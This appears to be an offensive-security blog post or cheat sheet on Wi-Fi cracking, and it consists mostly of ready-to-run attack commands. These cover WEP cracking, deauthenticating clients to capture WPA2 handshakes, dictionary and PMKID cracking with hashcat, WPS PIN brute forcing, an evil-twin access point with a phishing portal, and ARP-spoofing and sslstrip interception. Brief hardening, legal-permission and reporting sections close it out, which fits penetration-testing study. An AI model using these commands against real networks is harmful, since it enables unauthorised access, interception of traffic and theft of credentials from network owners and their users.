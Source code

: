 ```yaml
---
title: 'WiFi Cracking'
category: Offensive
pubDate: 2025-06-16
heroImage: '../../../assets/wifi.png'
---
```


## **1. Understanding Wi-Fi Security Protocols**
### **Protocol Evolution & Vulnerabilities**
| Protocol | Year | Encryption | Vulnerabilities          | Crackability     |
| -------- | ---- | ---------- | ------------------------ | ---------------- |
| WEP      | 1997 | RC4        | IV Collisions, Weak Keys | 100% (Minutes)   |
| WPA      | 2003 | TKIP/RC4   | WPA-TKIP Attacks         | 95% (Hours)      |
| WPA2     | 2004 | CCMP/AES   | KRACK, PMKID             | 70% (Dictionary) |
| WPA3     | 2018 | GCMP/SAE   | Dragonblood              | 30% (Advanced)   |

**Key Insight:** Always prioritize WPA3/WPA2-Enterprise over personal PSK when possible.

## **2. Essential Tools Setup**
### **Hardware Requirements**
- **Recommended Adapters**:
	- Alfa AWUS036ACH (802.11ac)
- **Antennas**: 
	- Alfa ARS-N19 (Indoor/All-Around)
	- Alfa APA-M25 (Outdoor/Targeted)
- USB 3.0 Extension + Mount

### **Arch Preparation**
```bash
sudo pacman -Sy aircrack-ng hashcat hcxdumptool bully reaver
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
```

## 3. Identify Target
### Using `airodump-ng`
```bash
sudo airodump-ng wlan0mon
```
- Look under the **"Prot"** or **"ENC"** column.
- It shows things like:
    - `WPA2` – encryption
    - `CCMP` – cipher
    - But for protocol version: check **channel width and speed** too.
- Combine with the **"HT"** / **"VHT"** / **"HE"** flags:
    - `HT` → **802.11n**
    - `VHT` → **802.11ac**
    - `HE` → **802.11ax (Wi-Fi 6)**

### Using `iw dev` and `iwlist`
```bash
iw dev wlan0 scan | grep -A 20 'SSID: TargetWiFi'
```
Look for:
- `HT capabilities:` → 802.11n
- `VHT capabilities:` → 802.11ac
- `HE capabilities:` → 802.11ax

## **4. Attack Methodology**

### **A. WEP Cracking (Obsolete but Found in Legacy Systems)**
```bash
# Step 1: Put interface in monitor mode
sudo airmon-ng start wlan0

# Step 2: Capture IVs (Packet Injection Recommended)
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon

# Step 3: Crack with aircrack
aircrack-ng -b 00:11:22:33:44:55 capture-01.cap
```
**Time Estimate**: 2-15 minutes with active traffic

### **B. WPA/WPA2 PSK Attacks**

#### **1. Handshake Capture**
```bash
# Capture beacon frames
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w handshake wlan0mon

# Deauth to force handshake
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c ClientMAC wlan0mon

# Verify handshake
aircrack-ng -J verify handshake-01.cap
```

#### **2. Dictionary Attack**
```bash
# Using aircrack
aircrack-ng -w rockyou.txt handshake-01.cap

# Using hashcat (faster)
hcxpcapngtool -o hash.hc22000 handshake-01.cap
hashcat -m 22000 hash.hc22000 rockyou.txt
```

#### **3. PMKID Attack (No Clients Needed)**
```bash
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1
hcxpcapngtool -z pmkid.hash capture.pcapng
hashcat -m 16800 pmkid.hash -a 3 ?d?d?d?d?d?d?d?d
```

### **C. WPA3 Attack Surface**
**Dragonblood Vulnerabilities**:
- SAE side-channel attacks
- Downgrade to WPA2

```bash
sudo dragonforce -i wlan0mon -b 00:11:22:33:44:55 -w wordlist.txt
```

## **5. Advanced Techniques**

### **A. Evil Twin Attacks**
```bash
# Create rogue AP
sudo airbase-ng -a 00:11:22:33:44:55 --essid "FreeWiFi" -c 6 wlan0mon

# Phishing portal integration
sudo dnsmasq -C dnsmasq.conf
sudo hostapd hostapd.conf
```

### **B. WPS PIN Attacks**
```bash
# Using reaver
reaver -i wlan0mon -b 00:11:22:33:44:55 -vv -K 1

# Using bully (faster)
bully -b 00:11:22:33:44:55 wlan0mon -p 12345670
```

## **6. Defense Strategies**

### **Enterprise Best Practices**
```bash
# RADIUS Configuration Example (FreeRADIUS)
eap {
    default_eap_type = peap
    timer_expire = 60
    ignore_unknown_eap_types = no
}
```

### **Personal Network Hardening**
```bash
# Hostapd Config Snippet
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=ComplexP@ssw0rd!
```

## **7. Legal Considerations**

**Always obtain written permission** before testing any network. Recommended legal clause:
```
This assessment is authorized by {Organization} from {StartDate} to {EndDate}.
Testing limited to SSIDs: {List_of_SSIDs}.
All activities logged for audit purposes.
```

## **8. Post-Exploitation**

### **Network Mapping**
```bash
nmap -Pn -sV -O 192.168.1.0/24
```

### **MITM Techniques**
```bash
sudo arpspoof -i wlan0 -t 192.168.1.100 192.168.1.1
sudo sslstrip -l 8080
```

## **9. Reporting Template**

**Findings Summary**:
```
1. WPA2-PSK Vulnerability (Critical)
   - Captured handshake in 2 minutes
   - Cracked password in 4 hours (8-char lowercase)

2. WPS Enabled (High)
   - PIN brute-forced in 6 hours

3. Rogue AP Detection (Medium)
   - No enterprise authentication observed
```

**Remediation Plan**:
1. Migrate to WPA3-Enterprise with 802.1X
2. Disable WPS immediately
3. Implement wireless intrusion detection
